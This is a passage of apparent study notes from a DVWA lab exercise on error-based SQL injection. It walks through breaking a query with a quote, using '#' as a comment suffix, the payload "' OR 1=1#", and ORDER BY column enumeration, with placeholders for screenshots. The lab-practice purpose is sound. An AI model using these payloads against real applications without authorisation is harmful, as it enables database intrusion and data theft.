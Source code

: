 # Error-based Query SQL Injection

#dvwa #sqli #error-based

Refer to [[Lab Simulation Setup/Webapps/DVWA/Setup#^214bb7|DVWA Lab Setup]] for the attacker machine to map the IP address in the `/etc/hosts`.

## 01 - Vulnerability Detection

### 1.1 - Error Detection

#### 1.1.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

`<Insert screenshot>`

#### 1.1.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

- Understand how the developer sees

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```
- Separate the single quotes

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)
                                     
                                     '1''
```

- Once you deleted the rest of the quotes

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

- Highlight from the right hand side of the quote

```
                                     '1(')'  (SINGLE QUOTE IS PARENTESIZED, WHICH IS BREAKING THE SQL BACKEND
```

#### 1.1.3 - Joining the Query

^bc051d

Now we need a suffix to terminate to get results. In MySQL we will terminate it with `--` to treat it as a suffix. It will treat it as a comment. We can leverage it to craft the payload to exploit further.

`'--`

`<Insert screenshot>`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

`'#`

`<Insert screenshot>`

We have no errors.

### 1.2 - Craft Payload

This is the syntax with a place holder of SQL payload.

`'<SQL_Payload>#`

`' OR 1=1#`

`<Insert screenshot>`

### 1.3 - Craft Payload

#### 1.3.1 - Columns Enumeration

^f521af

We need to determine number of columns before we perform

TODO: Include GROUP BY for enumeration (check the references)

```sql
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

`<Insert screenshot ORDER BY 1>`

`<Insert screenshot ORDER BY 3>`

```
Unknown column '3' in 'order clause'
```

3 - 1 = 2

We have two columns.

## References

- [Hacking Articles: Form Based SQL Injection Manually](https://www.hackingarticles.in/form-based-sql-injection-manually/)

- [Best approach to Error-Based SQL injection](https://medium.com/@anekantsinghai/best-approach-to-error-based-sql-injection-30c73fd8fa41)

- [Web Application Pentesting – Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [Web Application & SQL Injection Pen Test cheatsheet by D7X](https://sqli.promiselabs.net/)

- [Acunetix: SQLi - How it works](https://www.acunetix.com/blog/articles/sqli-how-it-works/)

- [PayloadsAllTheThings SQL Injection: MySQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)